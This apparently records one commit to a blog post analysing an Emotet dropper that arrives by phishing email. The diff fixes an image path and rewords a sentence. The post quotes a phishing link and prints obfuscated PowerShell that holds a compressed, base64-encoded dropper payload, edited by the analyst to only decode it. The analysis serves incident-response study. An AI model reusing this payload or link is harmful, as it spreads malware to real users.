

Before and after one commit to netscylla/blog, a Jekyll site: the page built from _posts/2019-03-13-Yet-Another-Emotet-Dropper.md, in a window 1280 px wide and 900 px high, scrolled down 3476 px. Shown: the whole window, without its empty margins (268-1011 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; library files that are not in the unit come from our copies; comment, search, counter and statistics services are not loaded.

Commit message:
minor changes

````diff
--- a/_posts/2019-03-13-Yet-Another-Emotet-Dropper.md
+++ b/_posts/2019-03-13-Yet-Another-Emotet-Dropper.md
@@ -6,7 +6,7 @@ date:   2019-03-13 14:49:33 +0000
 tags: [Malware, Incident Response, Emotet]
 ---
 
-![suspicious word doc](/blog/assets/Malware.png)
+![suspicious word doc](/blog/assets/malware.png)
 
 As our analysis begins on the phishing email we additionally have a suspicious Link.
  * http://hillhousewriters.com/_notes/ti8c-u5jpix-zgipgrvz/?emailId=aaa.bbb@xxxxx.com
@@ -127,7 +127,7 @@ After base-64 decoding becomes
 |fOREACH-oBjECT{NEW-objeCt SYSteM.iO.StrEamreADEr($_, [sySTeM.texT.ENCoDinG]::AsciI ) }
 |foREaCh-objeCT{$_.readTOEND()})
 ```
-Cyberchef had some trouble with decompression - so WIndows poerwshell to the rescue
+Cyberchef had some trouble with de-compression - so Windows Powershell to the rescue, by a few simple code edits, we can safely run this code to extract the dropper URLs:
 ```
 $a=(NEW-objeCt  sYSTEm.iO.CoMpREssiON.DEfLATestReAm([syStEm.Io.MEmoRySTrEaM][sYstem.cOnvERt]::fRoMBaSe64STrinG( ('VZH'+'h'+'a'+'9s'+'wEMX/F'+'X8'+'wKCGLXYNhS42hp4pm2VhHGGY'+'QBkG'+'W'+'z7Fm'+'RzKy'+'Equ'+'E/O9Vtibd7u'+'P'+'d'+'j/'+'ce7'+'8IK'+'/DDICX/UlAF1'+'JAv'+'Nh'+'gF'+'scoXjX'+'Je'+'/Udj'+'gGW30E8vHTqKy'+'Wf'+'hE'+'l6xYs'+'zQ'+'njbX9f'+'RxLVTVG'+'7o'+'w+9JHQ+3'+'js50'+'Ir6+H40HeaV0NMi/j'+'hQ'+'g8'+'e77hoZf1yRXm1lyp+'+'X'+'vwFLnd'+'t5BDx7l'+'+d8t'+'PC'+'3'+'oB'+'almh0b6'+'Ww'+'O'+'F'+'jj77wbIoX'+'2Xa'+'4e'+'3v'+'1'+'qqbg'+'S'+'kneV'+'HIQ+'+'m'+'AH/'+'WO9'+'Uk5TiGI'+'98'+'+TEm0Y'+'++k3Z'+'CHsg0'+'C4tlwU'+'Dk5LtLU2C+'+'E18JTWEM8'+'oC'+'kizu'+'/+Ax'+'JC5Cscy'+'Kd'+'gNRdoK/bxK/yEN'+'X'+'x/jC'+'g6Y'+'2uZYc'+'z8o'+'v'+'MrgozEqFDkt'+'XaIB'+'f'+'NJB'+'zbrQMI'+'pApu'+'vU5P1'+'ryc3'+'v4'+'QMT2qS4dPXuq'+'KfwjezHzWLwVQCsw'+'n'+'YRu2hmLpf7i'+'qg8lkiX'+'a+s'+'ri/sVGHame'+'bYL7DIL'+'3z'+'Mw1OK3XULf7HZSFtabstXJ'+'KTCgqAt'+'NiQ'+'rPR52+x8F'+'tyK5'+'nQ+h'+'9+o0'+'9TBm'+'JPR+aC+g'+'Fc=') ) ,[Io.ComPReSSION.COMPRESsioNMoDE]::DecoMpReSS ) |fOREACH-oBjECT{NEW-objeCt SYSteM.iO.StrEamreADEr($_, [sySTeM.texT.ENCoDinG]::AsciI ) } |foREaCh-objeCT{$_.readTOEND()})
 $a
````
Also changed, not shown: _posts/2019-01-19-TA505-Servhelper-Part-2.md (+1 -1 lines).
